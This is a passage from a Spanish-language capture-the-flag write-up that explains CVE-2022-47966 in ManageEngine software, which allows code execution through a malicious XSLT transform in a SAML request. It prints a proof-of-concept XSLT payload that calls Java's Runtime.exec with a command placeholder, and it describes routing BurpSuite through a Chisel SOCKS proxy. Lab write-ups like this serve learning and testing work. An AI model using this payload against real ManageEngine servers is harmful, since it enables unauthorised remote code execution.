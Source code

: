 ![SelfService](/assets/writeups/cerberus/7.png)

Aunque nos pida autenticación, buscando por vulnerabilidades de este software encontramos el CVE-2022-47966, que afecta a muchas versiones de los software de ManageEngine incluido este por uso de una librería desactualizada, entre el rango de versiones afectadas está el que tiene esta máquina... vamos a probar.

Esta vulnerabilidad consiste en una falta de protecciones en el procesamiento de solicitudes SAML, un atacante es capaz de introducir un transform XSLT malicioso para llegar a ejecutar código Java malicioso, esto obviamente solo es abusable si el software tiene la opción de autenticación por SAML activada, y para nuestra suerte si miramos bien en la captura de arriba, podemos ver que hay un parámetro llamado `SAMLRequest` en la petición GET.

Un PoC de GitHub muestra que se agrega lo siguiente a la solicitud

```xml
<ds:Transform Algorithm="http://www.w3.org/TR/1999/REC-xslt-19991116">
  <xsl:stylesheet version="1.0"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
                xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
                <xsl:template match="/">
                  <xsl:variable name="rtobject" select="rt:getRuntime()"/>
                  <xsl:variable name="process" select="rt:exec($rtobject,'{command}')"/>
                  <xsl:variable name="processString" select="ob:toString($process)"/>
                  <xsl:value-of select="$processString"/>
                </xsl:template>
  </xsl:stylesheet>
</ds:Transform>
```
Vamos a intentar autenticarnos con el servicio de la anterior captura e interceptar dicha autenticación con BurpSuite para alterarla, pero antes debemos darle un ajuste especial: En la parte de `Settings -> Network -> Connections -> SOCKS Proxy` debemos colocar la dirección de nuestro proxy creado con Chisel que normalmente es `127.0.0.1:1080` y activar dicha opción.
